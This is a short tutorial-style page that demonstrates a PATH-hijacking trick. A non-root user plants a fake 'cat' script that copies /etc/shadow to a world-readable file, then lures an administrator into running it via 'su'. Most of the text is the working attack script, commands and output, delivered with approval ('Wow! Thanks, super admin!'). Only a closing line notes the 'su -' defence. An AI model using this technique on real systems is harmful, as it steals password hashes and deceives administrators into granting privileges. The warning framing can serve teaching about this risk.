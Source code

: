 # Beware of rogue developers
Something like this could happen:

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.

$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

$ su
Password: ...
cat /home/you/dummy_file
Some important dummy stuff in that file.
exit
Wow! Thanks, super admin!

$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.
